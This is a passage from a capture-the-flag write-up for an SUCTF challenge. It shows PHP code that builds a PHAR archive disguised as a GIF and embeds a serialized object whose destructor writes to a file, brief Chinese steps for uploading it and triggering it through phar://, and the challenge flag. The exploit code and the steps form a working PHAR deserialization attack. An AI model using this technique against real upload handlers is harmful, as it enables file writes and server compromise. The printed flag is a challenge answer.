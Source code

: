 ```php
  }
  public function __destruct(){
    $fp=fopen($this->current_dir.'/'.$this->logfile,"a");
    foreach($this->actions as $act){
    fwrite($fp,$act."\n");
    }
    fclose($fp);
  }
}

$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new PicManager("/var/www/html/sandbox/b247b73fdd50bcbabfccedcf324c30fe");
$phar -> setMetadata($object);
$phar -> stopBuffering();
```

- php 执行以上文件，生成 phar.phar 改名为 phar.gif，上传，使用 phar:// 访问，之后访问 request.php，得到 flag
- FLAG: SUCTF{phar_s3rial1ze_f4nt4s71C}